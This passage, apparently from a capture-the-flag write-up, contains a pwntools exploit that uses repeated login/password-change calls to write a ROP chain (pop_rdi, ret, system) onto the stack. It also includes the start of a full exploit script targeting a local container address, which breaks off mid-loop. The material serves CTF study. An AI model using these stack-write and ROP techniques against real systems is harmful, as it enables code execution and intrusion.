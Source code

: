 ```python
    login(b'admin', p64(libc_base + 0x29d90))
    change_pw(p64(pop_rdi))
    logout()
    print('2222222222222222222')

    login(b'Welcome!', p64(main_rbp + 8) + b'\x08')
    change_pw(p64(main_rbp + 0x10) + b'\x08')
    logout()

    login(b'admin', p64(0))
    change_pw(p64(main_rbp))
    logout()
    print('3333333333333333')

    login(b'Welcome!', p64(main_rbp+0x10) + b'\x08')
    change_pw(p64(main_rbp + 0x18) + b'\x08')
    logout()

    login(b'admin', p64(another_addr & 0xffffffffff00))
    change_pw(p64(ret))
    logout()
    print('4444444444444444444')

    login(b'Welcome!', p64(main_rbp + 0x18) + b'\x08')
    change_pw(p64(main_rbp + 0x20) + b'\x08')
    logout()

    login(b'admin', p64(0x100000000))
    change_pw(p64(system))
    logout()
    print('5555555555555555')

    login(b'Welcome!', p64(main_rbp + 0x20) + b'\x08')
    change_pw(p64(main_rbp-0xd90) + b'\x08')
    logout()
    print('7777777')
```
<br />

### finish
- Before exit, we must recover admin's pw object address.
- This is because the object's destructor is called after print 'exit'.

<br />

## Ex code

```python
import sys
import re
from pwn import *

#context.log_level = 'debug'

r = remote('172.17.0.3', 8786)

def leak_admin_info():
    global r
    admin_info = b''

    while len(admin_info) != 0x18:
        for i in range(256):
            if(i >= 9 and i <= 13) or i ==32:
```